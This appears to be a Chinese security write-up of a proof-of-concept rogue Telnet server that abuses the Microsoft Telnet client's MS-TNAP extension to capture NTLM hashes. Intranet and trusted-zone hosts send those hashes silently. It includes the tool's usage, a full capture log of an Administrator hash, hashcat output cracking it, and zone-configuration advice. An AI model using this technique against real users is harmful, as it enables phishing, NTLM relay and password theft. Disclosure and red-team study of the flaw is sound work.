 #  Microsoft Telnet 客户端 MS-TNAP 服务器端身份验证令牌漏洞   
 Khan安全团队   2025-05-22 08:46  
  
此概念验证演示了 Microsoft Telnet 客户端的 MS-TNAP 身份验证协议中的一个漏洞。当客户端通过 URI 超链接连接到恶意 Telnet 服务器时telnet.exe，telnet://如果检测到 MS-TNAP 扩展，服务器就可以从客户端提取身份验证信息。如果该漏洞利用程序由内联网或受信任区域中的主机运行，则凭证会在不提示的情况下自动发送，这非常适合红队使用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3mTIdSaiaj7y0nrzmQc6ZNILHPbnFInktEiagvny8ibgKVzIbwuKSY2byCr9e3SPoph34KuLPoLO0tQ/640?wx_fmt=png&from=appmsg "")  
  
PoC 完成 MS-TNAP 过程并捕获 NTLM 身份验证数据，可用于：  
- NTLM中继攻击  
  
- 离线密码破解（NetNTLMv1/v2 哈希）  
  
漏洞详情  
  
带有 MS-TNAP 扩展的 Microsoft Telnet 客户端在连接到不受信任区域（如 Internet 区域）的服务器时，会向用户发出安全警告：  
```
"You are about to send your password information to a remote computer in Internet zone.
This might not be safe. Do you want to send anyway (y/n):"
```  
  
但是，对于受信任区域（例如 Intranet 区域）中的服务器，或者当系统的区域策略配置为静默身份验证时，不会显示警告并且会自动发送凭据。  
  
如果用户对提示回答“是”（或者由于区域设置而未显示提示），则身份验证材料将发送到服务器。攻击者可以利用此漏洞进行网络钓鱼攻击，诱使受害者点击恶意telnet://URI 链接。  
  
安全区域行为  
  
连接到 Telnet 服务器时，Windows 会根据安全区域检查服务器：  
- Internet 区域：在发送凭据之前提示用户警告  
  
- 内联网区域：可以在没有提示的情况下静默发送凭据  
  
- 受信任的站点：可能会在未经提示的情况下默默发送凭据  
  
当主机未使用协议说明符添加到 Intranet 区域或受信任站点区域时，此行为尤其危险。例如，添加类似192.168.1.1而不是 的IP 地址http://192.168.1.1会将信任设置应用于该主机的所有协议（HTTP、HTTPS、Telnet 等）。许多组织将内部 IP 地址范围添加到受信任区域时，未使用协议说明符，这无意中允许通过 Telnet 和其他协议进行静默凭据窃取。  
  
Windows 使用协议和主机的组合（例如telnet://192.168.1.1）检查区域信任，因此管理员在配置信任区域时应使用特定于协议的条目来限制暴露。  
  
受影响的系统  
  
安装 Microsoft Telnet 客户端时的所有 Windows 版本：  
```
Windows NT 4.0
Windows 2000
Windows XP
Windows 服务器 2003
Windows Server 2003 R2
Windows Vista
Windows 服务器 2008
Windows Server 2008 R2
Windows 7
Windows 服务器 2012
Windows Server 2012 R2
Windows 8
Windows 8.1
Windows 10
Windows 服务器 2016
Windows 服务器 2019
Windows Server 2022
Windows 11
Windows Server 2025
```  
  
命令行  
```
telnetclientpoc.exe [-d domain] [-s server] [-c challenge] [-o logfile]
-d domain：设置域名（默认：WIN2K3）
-s server：设置服务器名称（默认：WIN2K3）
-c challenge：设置自定义 NTLM 挑战（8 个字节的十六进制字符串）
-o logfile：设置自定义日志文件路径（默认：telnetclientpoc.log）
```  
  
当客户端连接时，应用程序：  
1. 记录详细的 NTLM 身份验证步骤telnetclientpoc.log  
  
1. 捕获netntlmv2.hash文件中的 NetNTLMv2 哈希值和 NTLMv1ntlmv1.hash  
  
1. 在控制台上提供详细的调试输出  
  
```
Server listening on port 23...
Client connected.
Sent Frame 4
Received Frame 5 (3 bytes): FF FB 25
Sent Frame 6
Received Frame 7 (27 bytes): FF FD 01 FF FD 03 FF FB 27 FF FB 1F FF FA 1F 00 78 00 1E FF F0 FF FB 00 FF FD 00
Sent Frame 8
Received Frame 9 - NTLM Type 1 (57 bytes): FF FA 25 00 0F 00 00 28 00 00 00 02 00 00 00 4E 54 4C 4D 53 53 50 00 01 00 00 00 97 82 08 E2 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0A 00 7C 4F 00 00 00 0F FF F0
NTLM signature found at position: 12
NTLM Type 1 Message:
  Signature: NTLMSSP
  Flags: 0xE2088297
  Negotiate Unicode
  Negotiate OEM
  Request Target
  Negotiate Sign
  Negotiate Lan Manager Key
  Negotiate NTLM
  Negotiate Always Sign
  Negotiate Extended Session Security
  Negotiate Key Exchange
  Negotiate 56
  Domain:
  Workstation:
  OS Version: 10.0 (Build 20348)
Received Frame 10 - Environment Variables (45 bytes): FF FA 27 00 FF F0 FF FA 27 00 03 53 46 55 54 4C 4E 54 56 45 52 01 32 03 53 46 55 54 4C 4E 54 4D 4F 44 45 01 43 6F 6E 73 6F 6C 65 FF F0
Environment Variable: SFUTLNTVER = 2
Environment Variable: SFUTLNTMODE = Console
Preparing to send Frame 11
Using domain: WIN2K3
Using server: WIN2K3
Using challenge: 31 7C 02 AC 07 8A 3C 43
Challenge inserted into Type 2 message: 31 7C 02 AC 07 8A 3C 43
Global challenge after setting: 31 7C 02 AC 07 8A 3C 43
Sending Frame 11 - NTLM Type 2 (153 bytes): FF FA 25 02 0F 00 01 88 00 00 00 02 00 00 00 4E 54 4C 4D 53 53 50 00 02 00 00 00 0C 00 0C 00 38 00 00 00 15 82 8A E2 31 7C 02 AC 07 8A 3C 43 00 00 00 00 00 00 00 00 44 00 44 00 44 00 00 00 05 02 CE 0E 00 00 00 0F 57 00 49 00 4E 00 32 00 4B 00 33 00 02 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 01 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 04 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 03 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 00 00 00 00 FF F0
NTLM signature found at position: 12
NTLM Type 2 Message:
  Signature: NTLMSSP
  Flags: 0xE28A8215
  Negotiate Unicode
  Request Target
  Negotiate NTLM
  Negotiate Extended Session Security
  Challenge: 31 7C 02 AC 07 8A 3C 43
  Target Name: WIN2K3
  Target Info:
    Domain Name: WIN2K3
    Server Name: WIN2K3
    DNS Domain Name: WIN2K3
    FQDN: WIN2K3
  OS Version: 5.2 (Build 3790)
Sent Frame 11
Received Frame 12 - NTLM Type 3 (465 bytes): FF FA 25 00 0F 00 02 C0 01 00 00 02 00 00 00 4E 54 4C 4D 53 53 50 00 03 00 00 00 18 00 18 00 AE 00 00 00 EA 00 EA 00 C6 00 00 00 1E 00 1E 00 58 00 00 00 1A 00 1A 00 76 00 00 00 1E 00 1E 00 90 00 00 00 10 00 10 00 B0 01 00 00 15 82 88 E2 0A 00 7C 4F 00 00 00 0F 5E CF 27 A8 A2 78 0D ED 5C 73 F3 03 E3 61 5F FA 57 00 49 00 4E 00 2D 00 52 00 4F 00 54 00 51 00 49 00 48 00 47 00 36 00 49 00 49 00 47 00 41 00 64 00 6D 00 69 00 6E 00 69 00 73 00 74 00 72 00 61 00 74 00 6F 00 72 00 57 00 49 00 4E 00 2D 00 52 00 4F 00 54 00 51 00 49 00 48 00 47 00 36 00 49 00 49 00 47 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 36 49 F8 DA E2 9C 4D 85 B3 1F 31 CF 78 5B 4F 01 01 00 00 00 00 00 00 31 A3 F7 3B D4 BD DB 01 CE 55 32 CC CD 64 AD 67 00 00 00 00 02 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 01 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 04 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 03 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 08 00 30 00 30 00 00 00 00 00 00 00 00 00 00 00 00 30 00 00 93 DC DD 10 7A E9 9F B9 F0 F1 8B AD AD 61 C5 76 A3 55 7C 60 7F 0B 8D 2F 70 68 8A 46 20 FC 12 52 0A 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 09 00 2A 00 74 00 65 00 6C 00 6E 00 65 00 74 00 2F 00 31 00 39 00 32 00 2E 00 31 00 36 00 38 00 2E 00 36 00 39 00 2E 00 32 00 31 00 31 00 00 00 00 00 00 00 00 00 D2 09 8A 43 A7 27 D6 75 8C F1 F6 CD CE 74 42 77 FF F0
NTLM signature found at position: 12
NTLM Type 3 Message:
  Signature: NTLMSSP
  Flags: 0xE2888215
  Negotiate Unicode
  Negotiate NTLM
  Negotiate Extended Session Security
  Domain: WIN-ROTQIHG6IIG
  Username: Administrator
  Host: WIN-ROTQIHG6IIG
  LM Response: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  NTLM Response: 38 36 49 F8 DA E2 9C 4D 85 B3 1F 31 CF 78 5B 4F 01 01 00 00 00 00 00 00 31 A3 F7 3B D4 BD DB 01 CE 55 32 CC CD 64 AD 67 00 00 00 00 02 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 01 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 04 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 03 00 0C 00 57 00 49 00 4E 00 32 00 4B 00 33 00 08 00 30 00 30 00 00 00 00 00 00 00 00 00 00 00 00 30 00 00 93 DC DD 10 7A E9 9F B9 F0 F1 8B AD AD 61 C5 76 A3 55 7C 60 7F 0B 8D 2F 70 68 8A 46 20 FC 12 52 0A 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 09 00 2A 00 74 00 65 00 6C 00 6E 00 65 00 74 00 2F 00 31 00 39 00 32 00 2E 00 31 00 36 00 38 00 2E 00 36 00 39 00 2E 00 32 00 31 00 31 00 00 00 00 00 00 00 00 00
Global challenge before NTLM Type 2: 31 7C 02 AC 07 8A 3C 43
Hashcat NetNTLMv2 Format: Administrator::WIN-ROTQIHG6IIG:317c02ac078a3c43:383649f8dae29c4d85b31f31cf785b4f:010100000000000031a3f73bd4bddb01ce5532cccd64ad670000000002000c00570049004e0032004b00330001000c00570049004e0032004b00330004000c00570049004e0032004b00330003000c00570049004e0032004b003300080030003000000000000000000000000030000093dcdd107ae99fb9f0f18badad61c576a3557c607f0b8d2f70688a4620fc12520a0010000000000000000000000000000000000009002a00740065006c006e00650074002f003100390032002e003100360038002e00360039002e003200310031000000000000000000
Challenge used in hashcat format: 317c02ac078a3c43
  Session Key: D2 09 8A 43 A7 27 D6 75 8C F1 F6 CD CE 74 42 77
Sent Frame 15
Connection closed.
```  
  
使用 Hashcat 破解密码  
```
hashcat (v6.2.6) starting

[...]

ADMINISTRATOR::WIN-ROTQIHG6IIG:317c02ac078a3c43:383649f8dae29c4d85b31f31cf785b4f:010100000000000031a3f73bd4bddb01ce5532cccd64ad670000000002000c00570049004e0032004b00330001000c00570049004e0032004b00330004000c00570049004e0032004b00330003000c00570049004e0032004b003300080030003000000000000000000000000030000093dcdd107ae99fb9f0f18badad61c576a3557c607f0b8d2f70688a4620fc12520a0010000000000000000000000000000000000009002a00740065006c006e00650074002f003100390032002e003100360038002e00360039002e003200310031000000000000000000:Password1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ADMINISTRATOR::WIN-ROTQIHG6IIG:317c02ac078a3c43:383...000000
Time.Started.....: Mon May  5 10:46:24 2025 (0 secs)
Time.Estimated...: Mon May  5 10:46:24 2025 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    11233 H/s (0.04ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12/12 (100.00%)
Rejected.........: 0/12 (0.00%)
Restore.Point....: 0/12 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: password -> Password1
```  
  
